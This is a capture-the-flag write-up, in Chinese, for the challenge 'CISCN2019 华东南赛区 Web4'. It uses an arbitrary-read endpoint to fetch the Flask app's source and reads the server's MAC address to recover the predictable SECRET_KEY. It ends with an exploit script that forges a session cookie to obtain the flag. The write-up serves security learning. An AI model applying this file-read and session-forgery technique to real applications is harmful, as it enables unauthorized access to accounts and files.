


# [CISCN2019 华东南赛区]Web4



## 解题

访问

```
http://b7ae5d20-38a0-417e-9343-473152b38ae5.node3.buuoj.cn/read?url=/app/app.py
```

可以读取源码

```python
# encoding:utf-8 import re, random, uuid, urllib from flask import Flask, session, request app = Flask(__name__) random.seed(uuid.getnode()) app.config['SECRET_KEY'] = str(random.random()*233) app.debug = True @app.route('/') def index(): session['username'] = 'www-data' return 'Hello World! Read somethings' @app.route('/read') def read(): try: url = request.args.get('url') m = re.findall('^file.*', url, re.IGNORECASE) n = re.findall('flag', url, re.IGNORECASE) if m or n: return 'No Hack' res = urllib.urlopen(url) return res.read() except Exception as ex: print str(ex) return 'no response' @app.route('/flag') def flag(): if session and session['username'] == 'fuck': return open('/flag.txt').read() else: return 'Access denied' if __name__=='__main__': app.run( debug=True, host="0.0.0.0" ) 
```

`session['username'] == 'fuck'`可得到flag，接下来就是要伪造`session`，而伪造`session`或者解密`session`都需要`密钥`，在源码中有密钥的生成方式：

```python
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
```

对于伪随机数，如果`seed`是固定的，生成的随机数是可以预测的，也就是顺序固定的，所以只要知道`seed`的值即可。这里的`seed`使用的`uuid.getnode()`的值，该函数用于获取Mac地址并将其转换为整数。


那么就需要读取Mac地址`/sys/class/net/eth0/address`

exp

```python
import flask_session_cookie_manager2
import random
mac = "02:42:ac:10:86:e1"
random.seed(int(mac.replace(":", ""), 16))
for x in range(1000):
    key = str(random.random() * 233)
    result = flask_session_cookie_manager2.FSCM.decode('eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.YMhtFA.btrKxk4Klji0LoZn6bnrH-USGmA', key)
    if 'error' not in result:
        result[u'username'] = 'fuck'
        print flask_session_cookie_manager2.FSCM.encode(key, str(result))
        exit()
```


